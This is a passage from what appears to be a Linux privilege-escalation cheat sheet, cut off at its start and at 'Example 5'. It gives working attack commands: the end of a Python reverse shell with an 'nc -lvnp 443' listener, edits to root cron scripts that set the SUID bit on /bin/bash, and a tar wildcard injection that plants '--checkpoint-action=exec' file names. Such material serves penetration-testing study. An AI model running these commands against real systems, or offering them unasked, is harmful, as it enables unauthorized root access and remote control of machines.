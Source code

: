 ```
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);

// Replace the IP & Port 

// Save & Exit the Script
```
Attacker

```
nc -lvnp 443
```

OR

Target

```
cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import os

os.system("chmod +s /bin/bash")

// Save & Exit the Script

Wait a While
/bin/bash -p
id && whoami
```

Example 4

Privilege Escalation via Tar Bash Script (WildCards)

```
cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/mysql-db-backup.sh
cat /usr/bin/local/mysql-db-backup.sh
Output of Script:
--------------------------------
#!/bin/bash

cd /var/www/html/
tar czf /tmp/dbbackup.tar.gz *
--------------------------------
cd /var/www/html/
echo "#!/bin/bash" > priv.sh
echo "chmod +s /bin/bash" >> priv.sh
chmod +x priv.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=sh\ priv.sh
Wait a while
/bin/bash -p
id && whomai
```
Example 5
